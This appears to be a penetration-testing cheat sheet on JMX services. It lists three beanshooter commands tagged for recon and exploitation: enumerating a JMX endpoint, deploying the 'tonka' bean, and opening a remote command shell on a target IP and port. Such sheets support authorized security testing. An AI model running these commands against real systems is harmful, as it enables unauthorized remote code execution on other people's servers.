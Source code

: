 # Jmx

% jmx

## JMX enumeration
#plateform/linux #target/remote #cat/RECON  
```
beanshooter enum <target-ip> <port>
```

## JMX RCE  preparation by tonka Bean
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT
```
beanshooter standard <target-ip> <port> tonka 
```

## JMX RCE Execution by tonka tonka Bean
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT
```
beanshooter tonka shell <target-ip> <port>
```



